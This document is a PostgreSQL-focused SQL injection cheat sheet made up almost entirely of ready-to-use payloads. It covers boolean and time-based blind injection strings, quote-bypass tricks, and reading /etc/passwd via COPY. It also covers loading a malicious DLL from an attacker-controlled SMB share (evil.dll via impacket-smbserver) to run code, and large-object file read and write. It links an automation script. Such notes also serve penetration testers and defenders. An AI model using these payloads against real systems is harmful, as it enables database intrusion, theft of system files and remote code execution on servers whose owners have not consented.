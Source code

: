 # SQL injections

`AAAA')/**/or/**/(select/**/1)=**0**%23`

`AAAA')/**/or/**/(select/**/1)=**1**%23`

**ASCII Ranges \(for blind sqli\)**

```text
lowercase_range = [x for x in range(97, 123)]
uppercase_range = [x for x in range(65, 91)]
digits_range = [x for x in range(48, 58)]
specialchars_range = [x for x in range(32, 48)]
specialchars_range += [x for x in range(58, 65)]
specialchars_range += [x for x in range(91, 97)]
specialchars_range += [x for x in range(123, 127)]
```

**Quotes bypass**

```text
1. get your ascii code
ascii(«‘»);
2. and convert it to the char:
chr(45) (for example)

Another way
COPY table(column) TO $$/tmp/poc.txt$$
```

**POSTGRES:**

`select current_setting(‘is_superuser’);`

**How to manipulate with sleep\(\)**

```text
select case
when (
select current_setting($$is_superuser$$)
)=$$on$$
then
pg_sleep(5)
end;
```

**OR oneliner**

`test AND (select case when (select ascii(substring((%s),%d,1))=[CHAR]) then pg_sleep(%d) end);`

**How to create a table with file content**

```text
CREATE TEMP TABLE read_file (content text);
COPY read_file FROM $$/etc/passwd$$
SELECT * FROM read_file;
```

You can rewrite some scripts on FS

**DLL extension in postgres**

**How to create a function**

```text
CREATE OR REPLACE FUNCTION test(text) RETURNS void AS **'FILENAME',** 'test' LANGUAGE 'C' STRICT;

sudo impacket-smbserver name /tmp/folder

CREATE OR REPLACE FUNCTION remote_test(text, integer) RETURNS VOID AS $$\\\\192.168.1.100\\name\\evil.dll$$, $$evil$$ LANGUAGE C STRICT;
SELECT remote_test();
```

**Large Objects \(admin user\)**

```text
// pg_largeobject has id and pageno
// each page contains 2kb of bytea format (raw bytes)

SELECT lo_import($$/etc/passwd$$, 1337);
SELECT lo_export(1337, $$c:\\\\new_win.ini$$);
SELECT loid, pageno, encode(data, $$escape$$) FROM pg_largeobject;
UPDATE pg_largeobject SET data=decode('77303074', 'hex') WHERE loid=1337 AND pageno=0;

//lo_list (list all large objects with their id)
//lo_unlink 1337 (delete object)
```

**Blind SQL Injection automation**

[https://github.com/httpnotonly/violent-python/blob/master/blind-sqli-post.py](https://github.com/httpnotonly/violent-python/blob/master/blind-sqli-post.py)

